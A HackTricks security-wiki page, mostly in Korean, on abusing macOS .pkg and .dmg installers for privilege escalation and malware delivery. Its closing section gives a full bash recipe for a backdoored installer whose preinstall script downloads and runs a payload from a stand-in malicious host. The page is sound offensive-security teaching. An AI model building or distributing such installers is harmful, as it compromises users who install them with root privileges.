 # macOS Installers Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pkg Basic Information

macOS **설치 패키지**(또는 `.pkg` 파일로 알려짐)는 macOS에서 **소프트웨어를 배포하기 위해 사용되는 파일 형식**입니다. 이 파일들은 소프트웨어가 올바르게 설치되고 실행되는 데 필요한 모든 것을 포함하는 **상자**와 같습니다.

패키지 파일 자체는 **대상** 컴퓨터에 설치될 **파일 및 디렉토리의 계층 구조**를 포함하는 아카이브입니다. 또한 **설치 전후에 작업을 수행하는 스크립트**를 포함할 수 있으며, 예를 들어 구성 파일을 설정하거나 소프트웨어의 이전 버전을 정리하는 작업을 수행합니다.

### Hierarchy

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Distribution (xml)**: 사용자 정의(제목, 환영 텍스트…) 및 스크립트/설치 확인
* **PackageInfo (xml)**: 정보, 설치 요구 사항, 설치 위치, 실행할 스크립트 경로
* **Bill of materials (bom)**: 설치, 업데이트 또는 제거할 파일 목록 및 파일 권한
* **Payload (CPIO archive gzip compresses)**: PackageInfo에서 `install-location`에 설치할 파일
* **Scripts (CPIO archive gzip compressed)**: 설치 전후 스크립트 및 실행을 위해 임시 디렉토리에 추출된 추가 리소스.

### Decompress
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG 기본 정보

DMG 파일, 또는 Apple Disk Images,는 Apple의 macOS에서 디스크 이미지를 위해 사용되는 파일 형식입니다. DMG 파일은 본질적으로 **마운트 가능한 디스크 이미지**(자체 파일 시스템을 포함함)로, 일반적으로 압축되고 때때로 암호화된 원시 블록 데이터를 포함합니다. DMG 파일을 열면 macOS가 **물리적 디스크처럼 마운트**하여 그 내용을 접근할 수 있게 합니다.

{% hint style="danger" %}
Note that **`.dmg`** installers support **so many formats** that in the past some of them containing vulnerabilities were abused to obtain **kernel code execution**.
{% endhint %}

### 계층 구조

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

DMG 파일의 계층 구조는 내용에 따라 다를 수 있습니다. 그러나 애플리케이션 DMG의 경우 일반적으로 다음 구조를 따릅니다:

* 최상위: 이것은 디스크 이미지의 루트입니다. 일반적으로 애플리케이션과 애플리케이션 폴더에 대한 링크를 포함합니다.
* 애플리케이션 (.app): 이것은 실제 애플리케이션입니다. macOS에서 애플리케이션은 일반적으로 애플리케이션을 구성하는 여러 개별 파일과 폴더를 포함하는 패키지입니다.
* 애플리케이션 링크: 이것은 macOS의 애플리케이션 폴더에 대한 바로 가기입니다. 이 목적은 애플리케이션 설치를 쉽게 하기 위함입니다. .app 파일을 이 바로 가기로 드래그하여 앱을 설치할 수 있습니다.

## pkg 남용을 통한 권한 상승

### 공개 디렉토리에서의 실행

예를 들어, 설치 전 또는 후 스크립트가 **`/var/tmp/Installerutil`**에서 실행되고, 공격자가 해당 스크립트를 제어할 수 있다면, 그는 실행될 때마다 권한을 상승시킬 수 있습니다. 또는 또 다른 유사한 예:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

이것은 여러 설치 프로그램과 업데이트 프로그램이 **root로 무언가를 실행하기 위해 호출하는 [공개 함수](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg)**입니다. 이 함수는 **실행할 파일의 경로**를 매개변수로 받아들이지만, 공격자가 이 파일을 **수정**할 수 있다면, 그는 root로 실행을 **남용**하여 **권한을 상승**시킬 수 있습니다.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Execution by mounting

설치 프로그램이 `/tmp/fixedname/bla/bla`에 쓸 경우, **소유자가 없는** `/tmp/fixedname` 위에 **마운트를 생성**하여 설치 과정 중에 **설치 파일을 수정**하여 설치 프로세스를 악용할 수 있습니다.

이의 예로 **CVE-2021-26089**가 있으며, 이는 **주기적인 스크립트를 덮어쓰는** 방식으로 루트 권한으로 실행을 얻었습니다. 더 많은 정보는 다음 강의를 참조하세요: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg as malware

### Empty Payload

실제 페이로드 없이 **악성 코드**가 포함된 **사전 및 사후 설치 스크립트**로 **`.pkg`** 파일을 생성하는 것이 가능합니다.

### JS in Distribution xml

패키지의 **배포 xml** 파일에 **`<script>`** 태그를 추가할 수 있으며, 해당 코드는 실행되어 **`system.run`**을 사용하여 **명령을 실행**할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Backdoored Installer

dist.xml 내부에 스크립트와 JS 코드를 사용하는 악성 설치 프로그램
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## References

* [**DEF CON 27 - Unpacking Pkgs A Look Inside Macos Installer Packages And Common Security Flaws**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "The Wild World of macOS Installers" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Unpacking Pkgs A Look Inside MacOS Installer Packages**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
